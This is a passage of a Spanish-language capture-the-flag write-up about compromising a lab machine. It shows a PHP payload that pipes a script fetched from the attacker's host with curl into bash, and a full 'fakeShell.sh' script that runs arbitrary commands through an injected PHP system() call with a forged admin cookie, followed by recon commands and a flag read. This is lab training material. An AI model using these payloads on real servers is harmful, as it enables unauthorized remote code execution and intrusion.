     ```php
    <?php system("curl 10.10.14.28 | bash"); ?>
    ```

La coneccion se entabla pero el servidor nos expulsa directamente.

### Creamos una FakeShell {-}

En el directorio exploits creamos un fichero `fakeShell.sh` que contiene

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
main_url="http://10.10.10.27/admin.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -G $main_url --data-urlencode "html=<?php system(\"$command\"); ?>" --cookie "adminpowa=noonecares" | grep "\/body" -A 500 | grep -v "\/body"; echo
done
```

> [ ! ] Notas: Las explicaciones del script se pueden ver en el video live en el minuto 50:19

Tambien se podria utilizar la heramienta creada por s4vitar [ttyoverhttp](https://github.com/s4vitar/ttyoverhttp)

### Analizando el servidor {-}

```bash
whoami
ifconfig
ls -l
ls -l /home
ls -l /home/xalvas
cat /home/xalvas/user.txt
```

Encontramos el usuario **xalvas** y ya podemos leer la flag.

La pregunta aqui seria: Porque no nos deja entablar una reverse shell? Porque el sistema nos expulsa cuando lo hacemos?

El comando `ls -l /home/xalvas` nos muestra ficheros. En el fichero `intrusions` vemos lo siguiente

```bash
cat /home/xalvas/intrusions
```
